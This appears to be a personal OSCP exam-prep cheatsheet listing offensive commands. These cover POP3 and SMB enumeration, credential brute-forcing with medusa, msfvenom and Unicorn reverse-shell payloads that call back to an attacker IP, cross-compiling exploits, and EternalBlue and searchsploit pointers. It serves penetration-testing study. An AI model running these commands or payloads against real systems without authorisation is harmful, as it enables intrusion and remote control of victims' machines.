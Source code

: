 # Another-OSCP-Cheatsheet
This is my personal OSCP cheatsheet that also "hopefully" would let me pass my exam. Any improvement is welcome :)

## POP3 enum
Enumerate if any user has info:

    for user in <user1> <user2> <user3>.. <userX>; do
    ( echo USER ${user}; sleep 2s; echo PASS abcd; sleep 2s; echo LIST; sleep 2s; echo quit) | nc -nvC <ip> <port>;  done
## SMB enum
**SHARES**

    nmap <ip> --script=smb-enum-shares
**SMB USER/CHECK**

    medusa -M smbnt -h <ip> -U userfile -P passfile -m GROUP:DOMAIN -v 4	
## Windows Payloads
    
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=<YOUR IP> LPORT=<PORT> -f <any desired format, example: jsp, php..> > file.<desired format>
## Kernel Cross-Compiling

Really helpful if you are facing an old-school 32-bit box (believe me, there's tons of them in OSCP Labs xd)
Choose the --static option wisely https://stackoverflow.com/questions/8692128/static-option-for-gcc

    gcc ¿--static? -m32 -Wl, --hash-style=both <nombre.c> -o <output>			
## MACRO PAYLOAD
**UNICORN** is a great tool u NEED to use in your OSCP journey https://github.com/trustedsec/unicorn

    python unicorn.py windows/x64/shell_reverse_tcp 11.1.1.151234 macro
    
## Common Exploits
**MS17-010** If you are facing EternalBlue :) https://ivanitlearning.wordpress.com/2019/02/24/exploiting-ms17-010-without-metasploit-win-xp-sp3/				

## Exploit search
Use -m to download the exploit

    searchsploit <service name>
    
